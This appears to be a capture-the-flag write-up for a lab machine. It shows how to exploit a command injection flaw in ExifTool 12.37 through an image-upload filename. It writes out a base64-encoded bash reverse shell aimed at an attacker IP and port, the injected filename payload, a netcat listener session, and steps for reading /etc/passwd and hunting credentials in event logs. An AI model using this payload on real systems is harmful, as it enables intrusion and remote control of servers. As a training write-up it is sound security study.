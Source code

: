 
When uploading a normal image you can see the exiftool version `ExifTool Version Number  : 12.37` a quick google search and you can see there is a command injection vulnerability that includes the |(pipe) symbol, https://gist.github.com/ert-plus/1414276e4cb5d56dd431c2f0429e4429 so I tried to do some stuff like I don't know maybe get a shell. So thats exactly what I'm going to do. In order to get a shell on the machine you need to do as follows:
1. First you want to encode your command with base64. 
   
   ```
    $ echo "bash -i >& /dev/tcp/HOST/PORT 0>&1" | bash64
    YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC44OC85MDk5IDA+JjEK
   ```
   
2. We can obtain a reverse shell by intercepting image upload POST request with Burp and changing the filename **don't forget to open a netcat listener before entering this request**:
   `filename="$(echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC44OC85MDk5IDA+JjEK | base64 -d | bash) |"`
3. Get a shell:
   
   ```
   $ nc -lnvp 9099                  
    listening on [any] 9099 ...
    connect to [10.10.14.88] from (UNKNOWN) [10.10.11.197] 32898
    bash: cannot set terminal process group (955): Inappropriate ioctl for device
    bash: no job control in this shell
    www-data@investigation:~/uploads/1676742128$ which python3
    which python3
    /usr/bin/python3
    www-data@investigation:~/uploads/1676742128$ python3 -c 'import pty;pty.spawn("/bin/bash")'
    <128$ python3 -c 'import pty;pty.spawn("/bin/bash")'
    www-data@investigation:~/uploads/1676742128$
   ```


Now lets see our available users:

```
$ cat /etc/passwd | grep bash
root:x:0:0:root:/root:/bin/bash
smorton:x:1000:1000:eForenzics:/home/smorton:/bin/bash
```

so we have two valid users, smorton is short for the Windows Event Logs for Analysis.msg file, so now lets really open in it I opened it on windows because it's a microsoft outlock message, but if you're using linux than you can use msgconvert and after that add it to thunderbird and you'll get it.
So, we can see a interesting zip file called evtx-logs.zip inside there is a file called security.evtx "security.evtx" is a Windows event log file that records security-related events and activities on a Windows system. So I'm going to use windows for this but Linux users can use wine with evtxdumb and it'll work perfect.

#### Finding Creds

So when opening the file you can see an Event Viewer, and a lot of logs, now of course not all logs are necessary so I'm not going to check each and evrey one of them instead I can use the find option and try and find interesting, and not surprisingly when searching for the keyword: "Password" you can see the default password for the eforenzics server. 
